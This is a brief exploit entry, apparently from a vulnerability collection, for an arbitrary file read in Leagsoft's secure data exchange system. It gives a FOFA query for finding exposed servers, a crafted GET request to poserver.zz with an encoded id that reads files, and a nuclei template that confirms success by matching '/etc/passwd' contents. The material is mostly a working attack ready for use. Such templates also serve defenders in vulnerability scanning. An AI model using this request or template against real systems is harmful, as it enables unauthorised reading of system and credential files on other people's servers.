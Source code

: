 联软安全数据交换系统任意文件读取
fofa
body="UniExServices"
poc
/UniExServices/poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnJCltInIrbDhyP24rOzhjPHI=
nuclei
id: leagsoft-safedata-exchange-file-fileread

info:
  name: 联软安全数据交换系统任意文件读取
  author: mmy
  severity: high
  tags: leagsoft,fileread
  description: 联软安全数据交换系统任意文件读取
  reference:
    - 
  metadata: 
    fofa-query: 'body="UniExServices"'
    verified: true
    max-request: 1

http:
  - method: GET
    path:
      - "{{RootURL}}/UniExServices/poserver.zz?pgop=opendiskdoc&id=KmcgY3MtK3IpLSRfOXE9YmpkL2orbBdrKztnJCltInIrbDhyP24rOzhjPHI="

    matchers:
      - type: regex
        part: body
        regex:
          - "root:[x*]:0:0:"
